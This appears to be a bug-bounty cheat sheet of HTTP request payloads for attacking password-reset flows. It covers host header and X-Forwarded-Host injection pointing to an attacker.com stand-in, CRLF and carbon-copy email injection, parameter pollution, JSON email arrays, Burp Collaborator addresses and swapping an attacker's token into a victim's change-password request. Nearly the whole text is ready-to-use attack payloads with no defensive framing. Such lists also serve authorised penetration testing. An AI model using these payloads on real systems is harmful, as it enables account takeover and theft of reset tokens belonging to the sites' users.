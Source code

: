 ##### HOST HEADER INJECTION
````
POST /reset
HOST: attacker.com
````

##### OVERRIDE HOST HEADER
````
POST https://target.com/reset
HOST: attacker.com
````

##### AMBIGUATE HOST HEADER
````
POST /reset
HOST: target.com@attacker.com


HOST: target.com:@attacker.com
HOST: target.com: attacker.com
````
##### other techniques
````
POST @attacker.com/reset
HOST: target.com


POST /reset@attacker.com#
HOST: target.com
````
##### DOUBLE HOST
````
POST /reset
HOST: target.com
HOST: attacker.com


add space in the host
POST /reset
HOST: target.com
 HOST: attacker.com

````
##### X-FORWARDED-FOR
````
POST /reset
HOST: attacker.com
X-FORWARDED-HOST: attacker.com



POST /reset
HOST: attacker.com
X-FORWARDED-HOST: target.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
Referer: https://attacker.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
X-FORWARDED-FOR: attacker.com



POST /reset
HOST: target.com
X-FORWARDED-HOST: 0177.1
X-FORWARDED-FOR: 0177.1
````
##### PARAMETER FUZZING USING BURP PARAMINER
 ````
 POST /reset
HOST: target.com

FUZZ 
 ````
 
 ##### SIGNING UP WITH TAMPERED EMAIL
 signup with email samsec@gmail.com.id.burpcollaborator.net and reset password for this email.
  we will recieve requests from internal server + SMTP connection details. and also we may get Internal headers + origin IP
   ````
   http://site.com/admin = (403)
   http://site.com/admin = (Headers + Origin IP = pwn)
   ````
 ````
 POST /reset
 
 email=test@123.burpcollaborator.net
 ````
 ##### EMAIL TAMPERING TO RECEIVE PASS RESET LINK IN ATTACKER EMAIL
 CRLF AND CARBON COPY INJECTION
 ````
 POST /reset
 HOST: target.com
 
 email=victim@gmail.com%0a%0dcc:attacker.com
 ````
 
 
 another methods
 - PARAMETER POLLUTION
```` email=victim@gmail.com&email=attacker@gmai.com````
 - SENDING TWO EMAIL AS ARRAY IN JSON AND ALSO CHANGING CONTENT-TYPE TO application/json
    ```` 
    POST /reset
    HOST: target.com
    Content-Type: application/json
    
    
    {"email":["victim@gmail.com","attacker@gmail.com"]}

    ````
 - using separator , | OR  %20
  ```` email=victim@gmail.com,attacker@gmail.com ````
  
  #### APPENDING .JSON TO THE ENDPOINT
  this may give the token in response
  ````
  POST /reset.json
  HOST: target.com
  ````
  #### CRLF IN THE ROUTE
  ````
  POST /reset?%oa%odHost:attacker.com
  Host: target.com
  ````
#### CHANGING REQUEST METHOD
````
PUT /reset
host: target.com
Content-Type: application/json

email= victim@gmail.com
````
#### see response after sending email in reset endpoint , it may leak email and token

### /reset/changepass

put unused token of attacker@gmail.com after issuing reset pass in the field of victim's change pass request
````
POST /reset/change
Host: target.com

email=victim@gmail.com&token=[attacker_token]&old_pass=a&new_pass=b


````
#### Add Email parameter if there isn't email in request of reset/changepass
````
POST /reset/change
Host: target.com


added="email:victim@gmail.com"&token=token

````

